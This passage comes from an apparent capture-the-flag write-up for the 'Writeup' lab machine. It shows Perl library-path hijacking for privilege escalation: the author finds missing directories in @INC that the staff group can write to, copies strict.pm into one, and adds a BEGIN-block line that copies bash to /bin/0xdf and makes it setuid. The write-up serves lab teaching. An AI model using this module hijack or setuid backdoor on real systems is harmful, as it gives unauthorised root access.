 

I can also take a look at the include path:



    jkr@writeup:/usr/local/share$ perl -e 'print join(":",@INC)'
    /etc/perl:/usr/local/lib/x86_64-linux-gnu/perl/5.24.1:/usr/local/share/perl/5.24.1:/usr/lib/x86_64-linux-gnu/perl5/5.24:/usr/share/perl5:/usr/lib/x86_64-linux-gnu/perl/5.24:/usr/share/perl/5.24:/usr/local/lib/site_perl:/usr/lib/x86_64-linux-gnu/perl-base



If I look at those directories in more detail, I'll see five are only
modifiable by root, but the first two don't exist:



    jkr@writeup:/usr/local/share$ perl -e 'print join("\n",@INC)' | while read dir; do ls -ld $dir; done
    drwxr-xr-x 4 root root 4096 Apr 19 04:21 /etc/perl
    ls: cannot access '/usr/local/lib/x86_64-linux-gnu/perl/5.24.1': No such file or directory
    ls: cannot access '/usr/local/share/perl/5.24.1': No such file or directory
    drwxr-xr-x 11 root root 4096 Apr 19 04:21 /usr/lib/x86_64-linux-gnu/perl5/5.24
    drwxr-xr-x 16 root root 4096 Apr 19 04:21 /usr/share/perl5
    lrwxrwxrwx 1 root root 6 Nov 29  2018 /usr/lib/x86_64-linux-gnu/perl/5.24 -> 5.24.1
    lrwxrwxrwx 1 root root 6 Nov 29  2018 /usr/share/perl/5.24 -> 5.24.1



And, those two are in `/usr/local` where staff has write. I'll create
`/usr/local/lib/x86_64-linux-gnu/perl/5.24.1`, and copy one of the
modules from above into it:



    jkr@writeup:~$ mkdir -p /usr/local/lib/x86_64-linux-gnu/perl/5.24.1
    jkr@writeup:~$ cp /usr/share/perl/5.24/strict.pm /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/



Now I'll edit the module to add some code just inside the `BEGIN`:



    package strict;

    $strict::VERSION = "1.11";

    my ( %bitmask, %explicit_bitmask );

    BEGIN {
        # Verify that we're called correctly so that strictures will work.
        # Can't use Carp, since Carp uses us!
        # see also warnings.pm.
        system "cp /bin/bash /bin/0xdf; chmod u+s /bin/0xdf";
        die sprintf "Incorrect use of pragma '%s' at %s line %d.\n", __PACKAGE__, +(caller)[1,2]
            if __FILE__ !~ ( '(?x) \b     '.__PACKAGE__.'  \.pmc? \z' )
            && __FILE__ =~ ( '(?x) \b (?i:'.__PACKAGE__.') \.pmc? \z' );
    ...[snip]...
